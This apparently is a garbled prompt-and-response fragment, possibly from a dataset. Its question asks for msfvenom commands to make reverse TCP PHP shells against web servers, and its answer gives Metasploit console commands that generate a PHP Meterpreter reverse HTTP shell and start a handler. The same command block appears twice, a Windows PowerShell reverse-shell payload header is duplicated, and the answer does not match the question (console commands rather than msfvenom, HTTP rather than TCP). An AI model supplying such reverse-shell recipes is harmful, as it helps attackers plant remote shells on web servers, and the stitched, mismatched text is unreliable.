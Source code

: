 Context:```

### PHP

```
use payload/php/meterpreter_reverse_http
generate -o shell.php -f raw lhost=127.0.0.1 MeterpreterDebugBuild=true
to_handler

php shell_http.php
```

### Windows
Payload options (cmd/windows/powershell_reverse_tcp):
Payload options (cmd/windows/powershell_reverse_tcp):

 Question: Provide a list of Bash commands to create reverse TCP PHP shells using Metasploit, specifically targeting web servers. Each command should use msfvenom and generate a .php payload. Respond only with Bash commands and no additional output or explanations. 

 Your response: 
```
use payload/php/meterpreter_reverse_http
generate -o shell.php -f raw lhost=127.0.0.1 MeterpreterDebugBuild=true
to_handler

php shell_http.php
```